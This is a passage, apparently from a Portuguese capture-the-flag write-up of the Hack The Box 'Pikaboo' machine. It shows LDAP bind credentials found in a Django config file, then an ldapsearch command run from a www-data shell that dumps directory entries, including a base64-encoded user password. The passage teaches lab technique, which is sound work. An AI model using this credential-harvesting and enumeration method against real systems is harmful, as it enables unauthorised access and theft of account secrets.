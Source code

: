 ```
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```

Com as credenciais, podemos enumerar o LDAP com o `ldapsearch`.

```
www-data@pikaboo:/opt/pokeapi/config$ ldapsearch -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w "J~42%W?PFHl]g" -b "dc=pikaboo,dc=htb" -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"                               
<" -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"
dn: dc=pikaboo,dc=htb
objectClass: domain
dc: pikaboo

dn: dc=ftp,dc=pikaboo,dc=htb
objectClass: domain
dc: ftp

dn: ou=users,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

dn: dc=pokeapi,dc=pikaboo,dc=htb
objectClass: domain
dc: pokeapi

dn: ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

dn: ou=groups,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: groups

dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==

dn: cn=binduser,ou=users,dc=pikaboo,dc=htb
cn: binduser
objectClass: simpleSecurityObject
```